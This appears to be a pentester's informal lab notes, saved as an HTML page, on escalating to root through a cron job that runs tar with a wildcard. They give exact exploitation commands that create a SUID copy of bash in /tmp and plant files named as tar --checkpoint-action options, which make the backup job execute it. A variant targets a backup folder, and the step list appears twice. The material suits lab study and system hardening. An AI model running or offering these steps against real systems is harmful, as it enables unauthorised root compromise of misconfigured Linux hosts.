 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Cron Wildcards</title>
</head><body><b>Escalation via Cron Wildcards</b><br/>
<br/>
<br/>
This was wild.<br/>
<br/>
TLDR<br/>
<br/>
in the instnace that a cron job calls a specific file. <br/>
further investigation identifies that it includes a wildcard *<br/>
<br/>
we inject malicious code into the wild card space. IE the code itself is happy run what ever since it will run all with the wild card.<br/>
<br/>
<br/>
<img height="369" src="image.png" width="700"/><br/>
<br/>
example.<br/>
<br/>
compress.sh was called direclty.<br/>
<br/>
cat to further investigate, identified a tar, back up command with a * wild card.<br/>
<br/>
crate a malicious file &gt; runme.sh and make it executable.<br/>
<br/>
touch a checkpoint<br/>
make that check point perform an action.<br/>
<br/>
Wait x time for the cron job to run <br/>
<br/>
execute the payload <b>/tmp/bash -p</b><br/>
<br/>
When in doubt google tar<br/>
<br/>
Keep in mind... the tar command itself could be a cron job. ie without being in its own script. same process<br/>
<br/>
* = spidey sences.<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: cat /etc/crontab<br/>
2. From the output, notice the script “/usr/local/bin/compress.sh”<br/>
3. In command prompt type: cat /usr/local/bin/compress.sh<br/>
4. From the output, notice the wildcard (*) used by ‘tar’.<br/>
 <br/>
<br/>
Exploitation<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type:<br/>
<b>echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt; /home/user/runme.sh</b><br/>
2. <b>touch /home/user/--checkpoint=1</b><br/>
3. <b>touch /home/user/--checkpoint-action=exec=sh\ runme.sh</b><br/>
4. Wait 1 minute for the Bash script to execute.<br/>
5. In command prompt type: /tmp/bash -p<br/>
6. In command prompt type: id<br/>
<br/>
<br/>
alternate... lets say a location is backed up<br/>
<br/>
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt; /home/andre/backup/shell.sh<br/>
<br/>
still need backups..<br/>
<br/>
<b>touch </b>/home/andre/backup/<b>--checkpoint=1<br/>
</b><b>touch </b>/home/andre/backup/<b>--checkpoint-action=exec=sh\ shell.sh<br/>
</b><b><br/>
<br/>
<br/>
</b><br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: cat /etc/crontab<br/>
2. From the output, notice the script “/usr/local/bin/compress.sh”<br/>
3. In command prompt type: cat /usr/local/bin/compress.sh<br/>
4. From the output, notice the wildcard (*) used by ‘tar’.<br/>
<br/>
Exploitation<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type:<br/>
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt; /home/user/runme.sh<br/>
2. touch /home/user/--checkpoint=1<br/>
3. touch /home/user/--checkpoint-action=exec=sh\ runme.sh<br/>
4. Wait 1 minute for the Bash script to execute.<br/>
5. In command prompt type: /tmp/bash -p<br/>
6. In command prompt type: id<b><br/>
</b></body></html>